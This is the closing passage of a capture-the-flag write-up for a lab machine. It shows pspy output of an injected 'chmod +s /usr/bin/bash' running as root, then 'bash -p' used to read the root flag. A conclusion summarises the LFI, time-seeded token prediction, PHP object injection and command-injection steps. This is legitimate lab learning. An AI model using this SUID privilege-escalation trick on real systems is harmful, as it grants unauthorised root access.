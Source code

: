 We see the following in pspy -- our command to add the SetUID bit to bash running as UID=0 (root):

```bash
2023/01/29 04:10:03 CMD: UID=0     PID=106162 | /bin/bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/01/29 04:10:03 CMD: UID=0     PID=106163 | sudo chmod +s /usr/bin/bash 
```

And it looks like we can now run bash while maintaining elevated privileges -- which means we get the root flag!:

```bash
bash-5.1$ /usr/bin/bash -p
bash-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) groups=1000(bill)
bash-5.1# cat /root/root.txt 
8d5e0e3f4363a6658c468f128532b915
```

## Conclusion

Initial LFI and filter bypass was fairly obvious when enumerating given the 'Error: attack detected' error messages the web server was returning.  I definitely lost a reasonable amount of time trying to work out how to register and activate a user, and somehow overlooked the `srand(time());` call to seed randomness from the current time -- a new attack I had not encountered until now in CTFs.  Additionally, PHP object injection was entirely new to me, and I misunderstood the serialisation/deserialisation process until I played with the relevant code locally.  With RCE out of the way, escalating to the bill user account was easy, and the subsequent escalation to root was also fairly straight forward once I again played with the vulnerable script locally and crafted a payload.

A fun machine where the path was not too unclear and I avoided rabbit holes, but learnt to slow down and understand concepts first.  Playing with vulnerable scripts and replicating bugs/attacks locally is hugely beneficial in this regard.